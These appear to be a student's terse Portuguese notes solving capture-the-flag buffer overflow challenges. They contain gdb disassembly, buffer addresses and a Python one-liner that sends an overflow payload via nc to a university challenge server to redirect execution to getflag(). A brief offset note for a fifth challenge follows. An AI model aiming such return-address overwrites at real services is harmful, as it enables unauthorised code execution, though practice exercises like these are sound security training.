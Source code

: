 objetivo -> escrever o endereco de getflag() no buffer ou seja na pass

disas check_password

 0x08048755 <+36>:    call   0x804869c <getflag>

b *0x0804874d
r -> vai parar antes do getflag()
x getflag() -> 0x804869c <getflag>:    0x53e58955
(gdb) p &buffer
$1 = (char (*)[32]) 0xffffcdf0

vai voltar para a instruçao depois do check_password:

   0x080487cd <+78>:    call   0x8048731 <check_password>
--Type <RET> for more, q to quit, c to continue without paging--
   0x080487d2 <+83>:    add    $0x10,%esp

os primeiros As sao  do buffer(32) os outros sao da pass(64). Posso reescrever 0x080487d2 que é para onde salta depois de check_password para o endereço de getflag() - 0x08048755

13*4 As + 0x08048755 ?

python -c 'print(13*4*"A"+"\x55\x87\x04\x08")' | nc mustard.stt.rnl.tecnico.ulisboa.pt 22155



5 - challenge 5 - 36 caracteres + 0x0804a001 + 4 caracteres + 0x080487d9

ebx with offset 1
eip